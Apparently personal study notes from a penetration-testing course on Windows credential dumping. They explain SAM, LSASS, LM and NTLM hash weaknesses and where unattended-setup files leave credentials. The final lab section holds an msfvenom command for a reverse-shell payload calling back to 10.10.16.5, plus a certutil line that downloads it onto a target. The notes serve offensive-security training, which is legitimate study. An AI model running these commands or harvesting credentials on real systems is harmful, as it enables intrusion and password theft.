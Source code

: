 ```powershell
windowsupdate
```

## Windows credential dumping
### windows password hashes
- windows stores hashed user acct passwords locally in the SAM (Security Accounts Manager) database
- Auth verification is done by the Local Security Authority (LSA)
- Two types of hashes (usually stored together)
	1. LM  --> discontinued from Vista onwards but legacy systems need
	2. NTLM
SAM
- all passwords are hashed and cannot be copied when the system is running (database file locked)
- Attackers must use in-memory techniques/tools to dump SAM hashes from LSASS process
	- Elevated/Administrative privs needed to interact with LSASS
- Modern versions encrypt the SAM database with a syskey

LM (LanMan)
Default hashing on windows prior to NT
Very weak
- Password is broken into 2 chunks
- All chars converted to uppercase
- Each chunked is hashed by DES and recombined
-> Does not use salts , rainbow table/bruteforce enuf to crack

NTLM (NTHash)
stronger
- Case sensitive
- allows use of unicode/symbols
- Passwords is hashed using MD4 and thats it
- Salt not used though so easy crack also

### Credentials stored in Config files
 - Automation tools like mass rollout of windows installation on systems
 - eg Uattended Windows Setup Utility --> mass deploy windows on systems
 - uses files with configs that have user/admin creds
 - configs left on system after install
Found here usually:
C:/Windows/Panther/Unattend.xml
C:/Windows/Panther/Autoattend.xml

--> passwords may be base64 encoded (just decode it)

Lab:
payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=1234 -f exe > payload.exe
```

on target desktop
```cmd
certutil -urlcache -f http://10.10.16.5/payload.exe payload.exe
```
